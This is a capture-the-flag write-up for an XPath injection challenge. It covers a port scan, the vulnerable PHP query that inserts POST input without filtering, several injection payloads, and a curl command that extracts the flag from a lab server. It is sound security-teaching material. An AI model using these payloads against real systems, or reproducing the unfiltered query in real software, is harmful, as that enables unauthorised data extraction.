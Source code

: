 # Portscan

Scanning the host with [nmap](../nmap.txt) reveals an http server on port `64234`.

There is a scary website with a form.

![](screenshots/1.png)

# Gitlab

There is a gitlab link with the user [Erstuujnszki](https://gitlab.com/Erstuujnszki), with some recent activity in the [blu](https://gitlab.com/ctf9353735/blu) repository ([blu.zip](workdir/blu.zip))

![](screenshots/2.png)

# Source code

The code is vulnerable to XPath injection. The user input is used in the query without filtering.

```php
$results = $xml->xpath("/users/user[name='{$_POST['name']}']/task");
```

# Exploit

Using crafted queries, the data printed can be controlled.

* `' or 1 and position()='1`
* `' or 1]\x00`
* `' or 1]/..//name\x00`
* `' or 1]/../..//name\x00`
* `' or 1]/../..//text()\x00`

The underelying xml structure and content can be slowly recovered with various queries or tools like `xcat`.

A more simpler method is just query for the flag format.

```bash
curl -s -X POST 'http://10.10.1.10:64234/index.php' --data-binary "input=$(printf %s "' or 1]/../..//*[text()[contains(.,'CQ24')]]"|jq -sRr @uri)%00"
```

![](screenshots/3.png)

# Flag
`CQ24{DonTHugMeIAmScared}`